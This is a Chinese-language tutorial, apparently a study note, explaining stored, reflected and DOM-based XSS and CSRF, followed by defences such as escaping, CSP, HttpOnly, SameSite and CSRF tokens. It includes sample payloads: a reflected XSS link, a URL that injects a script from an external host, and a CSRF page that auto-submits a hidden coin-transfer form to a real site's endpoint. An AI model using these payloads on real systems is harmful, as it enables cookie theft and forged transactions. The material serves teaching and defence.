


## XSS和CSRF攻击

### XSS
XSS 即Cross Site Script 跨站脚本攻击

XSS攻击指的是攻击者在网站上注入恶意的客户端代码，通过恶意脚本对客户端页面进行篡改，从而在用户访问篡改页面时能够获取用户的隐私数据

XSS攻击主要分为3类
- 存储型
- 反射型
- 基于DOM

#### 存储型XSS
攻击者将恶意代码存储到服务器上，当正常用户访问到有恶意代码的页面时，可以获取用户信息上传到攻击者的恶意服务器上



通过上面的示意图，我们可以了解到，xss存储型攻击分为3步
- 首先黑客利用网站漏洞将一段恶意代码提交到网站数据库中
- 然后正常用户访问到了包含恶意代码的页面
- 当用户访问到页面时，恶意代码就会把用户的cookie等隐私数据发送到恶意服务器

攻击者就可以利用cookie中的数据模拟登录等操作修改用户的信息，或者收集数据牟利

著名的例子就是喜马拉雅的这个事故

当页面渲染到这里时会直接把这段js直接输出到页面上，从而执行里面的js，达到获取当前访问用户信息的目的

#### 反射型XSS
反射型 XSS 只是简单地把用户输入的数据 “反射” 给浏览器，这种方式往往需要攻击者诱使用户点开一个恶意链接，或则点击一个按钮，提交一个表单等操作

比如简单的
正常链接：http://localhost:3000/?xss=123

恶意链接：http://localhost:3000/?xss=< script>alert('你被xss攻击了')</ script>

参数中可以执行很多逻辑

比如：服务器接收到xss这个参数，然后填充到了页面某个位置返回给了浏览器，此时就会执行注入的代码

#### 基于DOM的XSS攻击
这种攻击不会发送到服务器，只是dom层面的攻击

常见的操作有
```js
<body>
    <script>
        window.onload= function(){
            var oBox=document.getElementById("box");
            var oSpan=document.getElementById("span1");
            var oText=document.getElementById("text1");
            var oBtn=document.getElementById("Btn");
            oBtn.onclick = function(){
                oBox.innerHTML = oBox.innerHTML + oSpan.innerHTML + oText.value + "<br/>";
                // oBox.innerHTML += oSpan.innerHTML + oText.value +  "<br/>";//这是简便的写法，在js中 a=a+b ,那么也等同于 a+=b
                oText.value=""
            };
        }
    </script>

    <div id="box"></div>
    <span id="span1">小明：</span>
    <input type="text" id="text1"/>
    <input id="Btn" type="button" value="发送消息" name=""/>
</body>
```
我们给text1中填入一段js代码，当我们执行innerHTML的时候就会触发这段js，常见的操作还有outerHTML,eval等等，但是我不知道怎么才能攻击别人

这种方式可以

https://xxx/index.html#document.write(<script/src=http://ov6jc8fwp.bkt.clouddn.com/xss.js></script>

这样就可以注入一段js到页面了，还是可以发链接给其他人

### CSRF
CSRF全称是 Cross Site Request Forgery ，跨站请求伪造，黑客诱使用户打开一个自己网站，在黑客的网站中借用用户的登录态，像另一个网站发出伪造的请求。

比如我们假使一个网站有金币，并且这个网站有转账功能，黑客先是访问网站获取所有cookie，然后开发一个比如黄色网站，诱使用户登录（注意用户有可能很多网站用户名密码是用的同一个），这时构造出一个新的cookie，直接调用有金币网站的转账接口就能实现牟利的目的了

#### 手段
- 自动发起get请求
    ```js
        <! DOCTYPE html> 
        <html>
            <body>
                <h1>黑客的站点: CSRF攻击演示</h1>
                 
            </body>
        </html>
    ```
- 自动发起post请求
    ```js
        <html>
            <body>
                <h1>黑客的站点: CSRF攻击演示</h1>
                <form id= 'hacker-form' action="https://time.geekbang.org/sendcoin" method=POST>
                <input type="hidden" name="userll" value="hacker" />
                <input type="hidden" name="numberll" value="100" />
                </form>
                <script> document.getElementById ('hacker-form').submit(); </script> 
            </body>
        </html>
    ```
- 引诱用户点击链接
    ```js
    <div>
         </img> 
        <a href="https://time.geekbang.org/sendcoin?user=hacker&number=100" taget="_bla点击下载美女照片"
        </a>
    </div>
    ```
上面丢个图片下面丢个链接，诱使用户点击

### 攻击防御
#### XSS防御

1. 服务器对输入脚本进行过滤或转码

    比如 code:<script>alert('你被 xss 攻击了')</script>

    转换成： code:

    或则：code:&lt;script&gt;alert(&#39; 你被 xss 攻击了 &#39;)&lt;/script&gt;

2. 客户端充分利用 内容安全策略（CSP）

http头部指定Content-Security-Policy: policy
- 限制加载其他域下的资源文件，这样即使黑客插入了一个 JavaScript 文件，这个 JavaScript 文件也是无法被加载的；
- 禁止像第三方域提交数据
- 禁止内联脚本和未授权脚本
- 还提供了上报机制，这样可以帮助我们尽快发现有哪些 XSS 攻击

3. 使用 HttpOnly 属性
   由于很多 XSS 攻击都是来盗用 Cookie 的，因此还可以通过使用 HttpOnly 属性来保护我们 Cookie 的安全。
   
   使用 HttpOnly 标记的 Cookie 只能使用在 HTTP 请求过程中，所以无法通过 JavaScript 来读取这段 Cookie

#### CSRF防御
1. 充分利用好Cookie的SameSite属性
   在 HTTP 响应头中，通过 set-cookie 字段设置 Cookie 时，可以带上 SameSite 选项
   - Strict 最为严格。如果 SameSite 的值是 Strict，那么浏览器会完全禁止第三方 Cookie。
   - Lax 相对宽松一点。在跨站点的情况下，从第三方站点的链接打开和从第三方站点提交 GET 方式的表单这两种方式都会携带 Cookie。但如果在第三方站点中使用 Post 方法,或者通过 img，iframe 等标签加载的 URL，这些场景都不会携带 Cookie。
   - 而如果使用 None 的话，在任何情况下都会发送 Cookie 数据
2. 验证请求的来源站点
   服务器的策略是优先判断 Origin，如果请求头中没有包含 Origin 属性，再根据实际情况判断是否使用Referer值。

   校验refer或者origin
3. CSRF Token
   
   第一步，在浏览器向服务器发起请求时，服务器生成一个 CSRF Token，CSRF Token 其实就是服务器生成的字符串，然后将该字符串植入到返回的页面中

   第二步，在浏览器端如果要发起转账的请求，那么需要带上页面中的 CSRF Token，然后服务器会验证该 Token 是否合法。


